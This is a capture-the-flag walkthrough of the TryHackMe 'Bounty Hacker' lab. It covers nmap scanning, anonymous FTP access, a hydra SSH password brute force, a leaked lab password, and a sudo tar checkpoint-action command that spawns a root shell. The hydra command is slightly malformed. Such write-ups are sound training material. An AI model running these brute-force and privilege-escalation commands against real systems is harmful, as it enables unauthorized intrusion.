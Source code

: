 ### Bounty Hacker CTF Writeup

## Link: https://tryhackme.com/room/cowboyhacker

Our first step is to always begin with enumeration, we can use alot of tools to do this but we are going to use the most popular enumeration tool called 'Nmap' 

`┌──(--㉿kali)-[~]
└─$ nmap 10.10.81.164 -sV -sC
`



`
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
`



`
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
`



`
80/tcp open  http    Apache httpd 2.4.18 
`



From this Nmap scan we see that there are 3 ports open: port 21, 22 and 80
Importantly, we see that on port 21 there is 'Anonymous FTP login allowed' (This means that we can login as user anonymous and provide no password)


### The web-server:

If he head over to the website running this machine (which you can access by going to http://<machine_ip>) we are greeted by this main page:

![image](https://github.com/traveller404/Bounty-Hacker-CTF-/assets/92340426/757a9125-6535-4cee-af12-d83a835361d5)

Reading through this we are greeted by characters called Spike, Jet, Ed and Faye and we also learn of 2 other people called Edward and Ein.
These could be possible usernames for the ssh service running on port 22.

Inspecting the source code of the webpage reveals nothing ontop of this.

### The FTP service:

Log into the FTP service on the machine with the following command:

ftp <machine_ip>

Connected to 10.10.81.164.
Name (10.10.81.164:--): anonymous

230 Login successful.

Using `ls` we can see the files on this ftp service and we are told there are 2 .txt files, tasks.txt and locks.txt
Use `mget *` as a means to get all files to your local device then exit the ftp service

### SSH Access

The contents of task.txt contain another person, Lin, but locks.txt is more useful
It is a file containing presumably passwords, and with the list of potential usernames we collected earlier from the website and Lin from task.txt, its time to commence a brute force attack

To do this attack we must make a file containing the usernames, which for convenience sake we will call users.txt and then write our command

`hydra -l users.txt -P locks.txt ssh://<machine_ip -V>`

SUCCESS!!! 
Username: Lin
Password: RedDr4gonSynd1cat3

### Privelege Escalation

`ssh lin@<machine_ip>`

Logging on we see the first flag, which you can get yourself
But we are not done, we need to get the root flag, which we dont have access to, we need to escalate our privelleges
Using `sudo -l` we can see what we can run as sudo, which is tar, go to https://gtfobins.github.io/# and search up tar, I will let you do this on your own

If you have found the right command it should be 
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

Executing this gives us root permissions, meaning we have full control over the machine
Change to /root and get the flag

I hope this helps!!

